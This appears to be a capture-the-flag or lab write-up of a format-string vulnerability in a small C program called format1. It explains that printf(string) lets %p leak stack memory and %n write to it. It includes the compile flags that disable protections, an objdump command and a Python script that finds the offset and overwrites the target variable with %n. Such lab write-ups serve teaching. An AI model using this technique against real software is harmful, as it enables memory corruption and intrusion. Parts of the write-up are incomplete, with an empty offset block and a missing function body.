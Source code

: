 ```
int main(int argc, char **argv)
{
  vuln(argv[1]);
}

//gcc -o format1 formatone.c -fno-stack-protector -g -z execstack -W -no-pie

```
Now we can see bug is in the printf funtion : printf(string);: This is the vulnerable function in this code. The printf() will not check whether the supplied inputs are expected format strings or not. This is because it’s coded to accept any input values at the location where the format parameter is supposed to be. So what we can do is simply to verify if we can leak the memory addresses and also write arbitrary values onto the stack ([READ] %p or %x → [WRITE] %n).
We find add of target by cmd : objdump -t format1 | grep target
Finding offset of printf : 
```

```
After that we have exploit code : 
```
#!/usr/bin/python
import os


egg = "\x38\x96\x04\x08"  
hex_egg = egg.encode("utf-8").hex()

def desc():
  print('[+] Running Simple Format String Spraying...')
  print('[+] Setting Egg: ', hex_egg)


def spraying():
  i = 1
  while i < 200:
    c = int(i)
    p = './format1 ' + egg + ("%p" * c) + "%p"
    out = os.popen(p).read()
    s = str(out)
  
    if hex_egg in s:
      print('[+] Egg found! ...{0}'.format(out[-30:]))
      print('[+] Found Offset: {0}'.format(i))
      return i
      break  
    else:
      i += 1
      continue
  


def win(i):
  offset = i
  p = './format1 ' 
  p+= egg 
  p+= ("%p" * offset) 
  p+= "%n"   
  out = os.popen(p).read()
  s = str(out)
  if "target" in s:
    print('[+] Winning Statement: {0}'.format(out[-32:]))
    exit(0) 
  else:
    print('[-] Something Went Wrong...')
```